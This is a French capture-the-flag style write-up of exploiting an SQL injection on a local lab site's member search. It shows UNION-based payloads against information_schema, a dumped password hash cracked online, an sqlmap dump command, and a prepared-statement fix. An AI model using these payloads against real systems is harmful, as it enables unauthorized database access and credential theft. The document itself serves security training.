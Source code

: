# Recherche

- On peut trouver dans le menu principal un bouton **Members**, qui nous amène sur une page ou l'on peut **rechercher des membres** par leurs ID.

- Lorsque l'on rentre **quelque chose au hasard**, on peut voir que l'on **obtient le message**:

```sql
Unknown column '...' in 'where clause'
```

- On peut donc en déduire qu'il y a une **faille SQL** dans la **requête**.

# Exploit

- Il s'agit d'un **problème de sécurisation** autour d'une **requête SQL**, autrement dit il est possible de faire une **injection SQL**.

- **L'injection SQL** est une **vulnérabilité de sécurité grave** qui peut conduire à une **variété de problèmes de sécurité**, y compris la **divulgation de données sensibles**, la **corruption** ou la **perte de données**, et dans certains cas, la **prise de contrôle complète de la base de données et du système hôte**.

- En supposant que la valeur demandée est ensuite **comparée** à une valeur dans la **base de données**, on peut essayer d'entrer `1 OR 1=1`. Cette requête va faire que la **comparaison n’échoue jamais** et retourne toujours un résultat, ce qui permet de **récupérer tous les membres de la base de données**.

```text
ID: 1 OR 1=1  
First name: one
Surname : me

ID: 1 OR 1=1  
First name: two
Surname : me

ID: 1 OR 1=1  
First name: three
Surname : me

ID: 1 OR 1=1  
First name: Flag
Surname : GetThe
```

- On voit ici que l'element 4 contient le **flag**, il faut dont chercher une **table** qui s’appellerait `members` ou `users`. On peut supposer que la **requête** est la suivante:

```SQL
SELECT user_id, first_name, last_name FROM users WHERE id = $_GET['id']
```

- On peut élaborer une **requête SQL** pour récupérer **les données que l'on cherche**:
  - `UNION`: nécessaire pour **combiner** les résultats de la **requête originale** avec les ceux de la **requête que l'on va faire**.
  - `SELECT`: sélectionne les **colonnes** que l'on veut.
  - `FROM`: sélectionne la **table** que l'on veut.
  - `information_schema.tables`: regroupe toute les **informations sur les tables**.

- Tout d'abord, il nous faut choisir la **bonne table**. Pour afficher **l'ensemble des tables**, on utilise:

```SQL
1 UNION SELECT table_name, NULL FROM information_schema.tables
```

- On vois une table `users` qui correspond à **ce que l'on cherche**. On va **lister** toute les **colonnes** de `users`:

```SQL
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

- Ensuite, on peut lister les **éléments présents** dans la table `users`, jusqu'à trouver **ce que l'on cherche**:

```SQL
1 UNION SELECT Commentaire, countersign FROM users
```

```text
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

- On peut utiliser <a href="https://md5decrypt.net/">MD5Decrypt</a> pour décrypter le **mot de passe**. On obtient alors: `FortyTwo`, soit `fortytwo` en **minuscule**. en utilisant <a href="https://www.https://md5decrypt.net/Sha256/">MD5Decrypt</a> encore une fois, on peut obtenir le **hash sha256** de `fortytwo`: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

#### SQLMAP

- On peut utiliser **SQLMAP** pour **automatiser** la recherche de **faille SQL**:

```python
python3 sqlmap.py -u http://127.0.0.1:8080/index.php\?page\=member\&id\=1\&Submit\=Submit --dump -T users
```

# Fix

- Pour éviter les **Injections SQL**, il faut utiliser des **requêtes préparées**, qui **séparent** les instructions SQL des données utilisateur.

```PHP
$mysqli = new mysqli("localhost", "username", "password", "database");

// Check connection
if ($mysqli->connect_error) {
    die("Connection failed: " . $mysqli->connect_error);
}

$searchTerm = $_GET['search'];

// Prepare statement
$stmt = $mysqli->prepare("SELECT * FROM table_name WHERE column_name LIKE ?");
$searchTerm = "%$searchTerm%";
$stmt->bind_param("s", $searchTerm);

// Execute statement
$stmt->execute();

// Close statement and connection
$stmt->close();
$mysqli->close();
```
